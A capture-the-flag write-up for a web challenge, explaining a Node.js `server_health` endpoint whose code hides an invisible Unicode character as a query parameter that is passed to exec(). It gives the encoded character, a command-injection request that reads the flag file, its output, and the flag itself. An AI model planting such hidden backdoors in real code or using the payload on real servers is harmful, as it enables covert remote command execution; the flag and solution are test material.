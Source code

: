 # $ where backdoor

### Category

Web

### Description
These web masters are trying to show off their skills. But in reality, there are kind of lazy. They left a backdoor on the server for them to do some maintenance.
Find it, exploit it :)

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

First things first after looking around the website, we indentify the intersting part that allows us to interact with the backend, through a very simple API. It's probably the part we'll need to leverage to gain access to the machine.

Fortunatly, we have access to the source code (at the bottom of the page there is a link to an archive).

The intersting part is the `server_health` endpoint, described in `server/server.js`.

```javascript
app.get('/server_health', cors(corsOptions), async (req, res) => {
    var { timeout,ㅤ} = req.query;
    const checkCommands = [
        '/bin/bash /home/player/scripts/fileIntegrity.sh',
        '/bin/bash /home/player/scripts/isUp.sh localhost:80',
        '/bin/bash /home/player/scripts/isUp.sh localhost:3000',ㅤ
    ];

    var t = 0;
    if (timeout != "") {
        t = parseInt(t);
    }

    try {
        output = ""
        await Promise.all(checkCommands.map(async (cmd) => {
            try {
                r = await exec(cmd, { timeout: t });
                output += r.stdout.trim() || r.stderr.trim();
            } catch (err) {
                output += "";
            }
            output += "\n"
        }));
        res.status(200);
        res.send(output.trim());
    } catch(e) {
        res.status(500);
        res.send('Server status : ERROR');
    }
});
```

The only way to achieve code execution is through the `exec()` function, which is called on every element present in the `checkCommands` list. This is were the challenge gets tricky : there is an invisible variable in this list, after the last `,`. The same element is also present after the `,` on the first line, when the function recovers the parameters from the request query paremeter (with `timeout`).

If you open this write-up (or the original challenge) with Visual Studio Code for exemple, the character will be highlighted. Here it is:
```
ㅤ
```

The urlencoded value of that character is `%E3%85%A4`.

All you have to do to achive remote code execution is to paste `/server_health?%E3%85%A4=<command>` into the websites input field.

```
/server_health?%E3%85%A4=cat%20../flag.txt

File integrity : OK
Hero{1nv1s1b1e_b4ckd0or_w7f}
localhost:80: UP
localhost:3000: UP
```

### Flag

```Hero{1nv1s1b1e_b4ckd0or_w7f}```